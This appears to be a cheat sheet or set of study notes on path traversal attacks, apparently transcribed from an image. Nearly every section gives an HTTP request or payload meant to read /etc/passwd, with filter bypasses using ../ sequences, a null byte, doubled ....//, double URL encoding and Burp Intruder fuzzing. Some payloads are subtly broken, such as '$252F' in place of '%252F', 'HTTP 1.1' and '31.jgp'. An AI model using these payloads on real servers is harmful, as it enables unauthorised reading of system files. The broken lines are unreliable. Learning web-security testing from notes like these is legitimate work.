 # 4 Path / Directory Traversal Vulnerabilities

Load a file that exists on the system that shouldn't be accessible

```
GET /image?filename=/etc/passwd HTTP 1.1
```

---

## Bypassing Absolute Path Restrictions

```
GET /image?filename=../../../etc/passwd HTTP 1.1
```

---

## Bypassing Hard-coded Extensions

`%00` translates to a Null byte, that will terminate the string before it

```
../../../etc/passwd%00.jpg
```

to 

```
../../../etc/passwd
```

---

## Bypassing filtering

Assuming that the target filters the `../` we can double up them

```
....//....//....//etc/passwd
```

to

```
../../../etc/passwd
```

---

## Bypassing Hard-Coded Paths

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
```

---

## Bypassing Advanced Filtering

Double URL encoded payload

```
..%252F..$252F..%252Fetc%252Fpasswd
```

to

```
..%2F..$2F..%2Fetc%2Fpasswd
```

---

## Bypassing Extreme Filtering

Add § signs with Burp Proxy

```
GET /image?filename=§31.jgp§ HTTP/1.1
```

copy payloads from the cheatsheat to Burp Intruder Payload List and will send e.g. 180 requests

---

